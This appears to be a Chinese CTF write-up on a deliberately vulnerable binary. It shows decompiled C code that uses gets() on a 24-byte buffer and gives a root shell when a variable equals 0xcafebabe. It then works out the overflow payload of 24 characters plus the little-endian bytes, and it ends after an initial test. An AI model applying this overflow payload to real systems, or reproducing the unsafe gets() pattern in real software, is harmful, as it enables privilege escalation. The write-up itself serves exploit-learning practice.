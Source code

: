 打开文件时，会询问是否进行分析，这里建议可以测试，这里看到右边是主代码

分析代码，可以知道，在提示出现后，进入`if`判断`local_10 == 0xcafebabe`的话，会以`root`身份执行其中的代码，具体代码分析，我在下面代码块中编写

```c
undefined8 main(void)

{
  char local_28 [24];	//定义的一个24字节的数组
  long local_10;
  
  local_10 = 0;
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("hello pwner ");
  puts("pwnme if u can ;) ");
  gets(local_28);		//这里的数组接收用户的输入，可以接收24个字节
  if (local_10 == 0xcafebabe) {	//这里虽然有这个判断，但是怎么给它值
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh",(char **)0x0);
  }
  return 0;
}
```

其实就是缓冲区溢出，这里就是把数组24冲出去，剩余的就给了`local_10`。所以就需要构造

这里`0xcafebabe`是大端序，那么作为逆向，就需要小端序，大概为`\xbe\xba\xfe\xca`

然后再随便构造24个字节的字符，总体大概就是

```shell
#使用python生成24个a
python3 -c "print('a'*24)"        
#下面就是完整的payload
aaaaaaaaaaaaaaaaaaaaaaaa\xbe\xba\xfe\xca
```

测试一下，可以看到可以了，不是直接退出了，但是后续应该有东西的

![](./pic/71.jpg)
